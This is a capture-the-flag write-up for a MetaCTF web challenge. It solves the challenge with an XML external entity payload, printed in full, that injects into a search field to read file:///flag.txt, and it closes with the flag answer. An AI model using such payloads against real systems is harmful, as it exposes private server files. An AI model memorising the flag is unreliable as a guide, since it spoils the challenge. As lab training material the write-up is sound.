 ### Problem
```text
Business, INC, the world's premier widget manufacturer, just released their fancy new dashboard, using all the hottest new web technologies from 2010.

This account doesn't seem to have a ton of access. Sucks.

Can you access the flag at /flag.txt?
```

### Solution
* XML injection in search bar on event logs
![image](https://user-images.githubusercontent.com/60841283/144747008-df23189a-9593-4090-9f4e-a2af64bfa09e.png)

* Normal Search
![image](https://user-images.githubusercontent.com/60841283/144746934-54da2661-328b-4599-b7ad-6ccf4a69336e.png)

* With Payload
![image](https://user-images.githubusercontent.com/60841283/144746975-c2e571ca-0ab2-41c9-8f92-a84989c8d2bf.png)


Payload :-
```html
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///flag.txt"> ]>
<params>
  <query>
    &ent;
  </query>
</params>
```
# Flag :- MetaCTF{el3m3nt4l_3xtern4lit1e5}
